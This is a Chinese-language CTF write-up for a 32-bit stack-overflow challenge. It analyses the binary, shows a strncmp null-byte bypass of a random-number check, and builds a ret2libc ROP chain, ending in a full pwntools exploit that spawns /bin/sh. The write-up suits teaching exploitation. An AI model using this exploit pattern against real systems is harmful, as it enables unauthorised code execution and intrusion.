





## 0x001 程序分析

分析main函数



在main函数中，首先调用了函数 sub_80486BB()，然后读取 **/dev/urandom** 文件获取 4 位的随机数，然后调用 sub_804871F() 和sub_80487D0()。

**sub_80486BB()函数内容**



该函数中使用的定时器，如果程序运行超时，则会报错。

**sub_804871F()函数内容**



该函数中，首先将随机数以 **有符号长整型数** 格式化为字符串保存到 **s** 中，然后接收输入到 **buf**，同 **s** 进行比较，如果相同，则返回 **buf** 的第7位。

**和sub_80487D0()函数内容**



该函数的参数为 **sub_804871F()** 函数的返回值，如果值为 127，则接收输入大小为 200 字符，如果值不为 127，则接收输入的长度以参数大小为准。

## 0x002 漏洞分析

很明显可以看到，在 **和sub_80487D0()** 函数中存在栈溢出，因为如果函数参数大于231，则会超过 **buf** 的最大长度，如果输入长度大于 235，则会覆盖返回地址。

## 0x003 漏洞利用

怎么才能让参数大于 231 呢？再来分析下 **sub_804871F()** 函数内容。

要想让 **sub_804871F()** 有返回值，则需要通过 **strncmp** 的比较，而随机数的值我们又无法获得。那么此时就需要对这里面的三个系统函数的特点进行分析利用。

> **strncmp** 函数：如果比较的长度为 0 时，比较结果就为 0。

> **strlen** 函数：判断字符串结束的标志为  **\x00** 

> **read** 函数：输入结束后会在输入内容最后添加 **\x0a** 作为结束符。

通过这三个函数的特点，我们就可以构造 payload 绕过 **strncmp** 校验，并且可以随机设置函数的返回值。

原理：在read处可以输入内容 "\x00\xFF\xFFxFF\xFFxFF\xFFxFF"，那么read函数读取到的长度就是 8，存放在 **buf** 中，而使用 **strlen** 函数计算  **buf** 的长度时，获得的字符串长度为 0，那么由于 **strncmp** 函数比较的字节长度是通过 **strlen** 函数获取的，因此比较的结果始终为 0，可以成功绕过随机数比较，并且返回的数值可通过输入的内容进行控制。

构造payload1如下：
```
payload1 = b"\x00" + b"\xff" * 7
```

通过checksec查看



程序开启了 **NX** 和 **RELRO**，并且程序中没有调用 **system** 函数，因此考虑构造ROP，所幸题目给了libc文件。

构造ROP，首先使用 **write** 泄漏函数的真实地址
```
payload2 = b"A" * 235 + p32(write_plt) + p32(ret_addr) + p32(1) + p32(puts_got) + p32(4)
```

注意：这里使用的 **ret_addr** 地址为 **0x080487d0**，为什么不选择返回到 **main** 函数呢？由于这个程序里有定时器，返回到 **main** 函数会多一步 **send** 和 **recv**，会影响运行时间。

有了函数的真实地址，即可计算libc基地址、system函数真实地址、字符串"/bin/sh"真实地址。最后构造ROP，执行system("/bin/sh")命令，获取系统去权限。
```
payload3 = b"A" * 235 + p32(system_addr) + b"AAAA" + p32(bin_sh_addr)
```

最终exp如下：
```
from pwn import *

p = process("./pwn")
# p = remote("node4.buuoj.cn", 26005)
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")

puts_got = elf.got["puts"]
write_plt = elf.plt["write"]
ret_addr = 0x080487d0

payload1 = b"\x00" + b"\xff" * 7
p.sendline(payload1)

payload2 = b"A" * 235 + p32(write_plt) + p32(ret_addr) + p32(1) + p32(puts_got) + p32(4)
p.recvuntil("Correct\n")
p.sendline(payload2) 

puts_addr = u32(p.recv())
libcbase = puts_addr - libc.symbols["puts"]
system_addr = libcbase + libc.symbols["system"]
bin_sh_addr = libcbase + next(libc.search(b"/bin/sh"))

payload3 = b"A" * 235 + p32(system_addr) + b"AAAA" + p32(bin_sh_addr)
p.sendline(payload3)

p.interactive()
```

疑问：最后执行system("/bin/sh")命令的payload3中，为何要填充四个任意字符？